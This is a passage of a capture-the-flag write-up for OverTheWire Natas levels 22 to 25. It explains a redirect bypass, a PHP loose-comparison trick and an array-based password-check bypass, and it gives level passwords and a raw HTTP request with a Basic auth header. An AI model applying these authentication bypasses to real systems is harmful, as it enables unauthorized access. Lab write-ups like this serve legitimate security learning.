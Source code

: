 Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

### lvl 22-23

Looking at the source code, if revelio parameter was set, we would get the password but there was instant redirection to / when request was made. so the request was made from burp and key was obtained

Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

### lvl 23-24

![/assets/images/natas/Untitled%205.png](/assets/images/natas/Untitled%205.png)

Looking at the source code there is a loose comparison in php

we can make it true by making a post request using 

passwd=100 iloveyou

Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

### lvl 24-25

![/assets/images/natas/Untitled%206.png](/assets/images/natas/Untitled%206.png)

Looking at the source code we have to compare between passwd and the actual password

This can be bypassed by using array

```html
POST /index.php HTTP/1.1
Host: natas24.natas.labs.overthewire.org
Authorization: Basic bmF0YXMyNDpPc1JtWEZndW96S3BUWlo1WDE0ek5PNDMzNzlMWnZlZw==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas24.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.1991032151.1593787332.1593787332.1593787332.1; __utmc=176859643; __utmz=176859643.1593787332.1.1.utmcsr=natas22-experimenter.natas.labs.overthewire.org|utmccn=(referral)|utmcmd=referral|utmcct=/
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

```